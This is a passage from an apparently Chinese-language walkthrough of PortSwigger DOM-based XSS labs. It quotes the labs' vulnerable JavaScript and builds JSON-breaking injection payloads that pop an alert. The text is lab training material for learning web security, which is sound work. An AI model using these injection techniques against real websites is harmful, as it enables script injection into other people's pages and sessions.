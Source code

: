 ```js
            if (searchResult.id) {
                var viewPostButton = document.createElement("a");
                viewPostButton.setAttribute("class", "button is-small");
                viewPostButton.setAttribute("href", "/post?postId=" + searchResult.id);
                viewPostButton.innerText = "View post";
            }
        }

        var linkback = document.createElement("div");
        linkback.setAttribute("class", "is-linkback");
        var backToBlog = document.createElement("a");
        backToBlog.setAttribute("href", "/");
        backToBlog.innerText = "Back to Blog";
        linkback.appendChild(backToBlog);
        blogList.appendChild(linkback);
    }
}
```

调用了`/search-results?search=123`的 api 做了一个 ajax (应该算是吧)。脚本中直接拼接 responseText eval了，如果 api 可以注入那就可以实现 alert。

测试发现 api 的转义策略有问题，输入`\"`返回就不是合法 json 了，escape 掉了一个引号

构造合法 json

```
\"-alert(window.origin)}//
```

由于这个`-`仅仅是计算符号，改成`*`或`/`都行。而`+`因为会被 http 协议认作空格所以不能正常利用。改成`%2B`就可以了

```
\"%2Balert()}//
```

## Lab: Stored [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

随便点一个文章`Ctrl + U`可以看到没有评论。可以判断为前端渲染

```js
function loadComments(postCommentPath) {
    let xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            let comments = JSON.parse(this.responseText);
            displayComments(comments);
        }
    };
    xhr.open("GET", postCommentPath + window.location.search);
    xhr.send();

    function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }

    function displayComments(comments) {
        let userComments = document.getElementById("user-comments");

        for (let i = 0; i < comments.length; ++i)
        {
            comment = comments[i];
            let commentSection = document.createElement("section");
            commentSection.setAttribute("class", "comment");

            let firstPElement = document.createElement("p");
```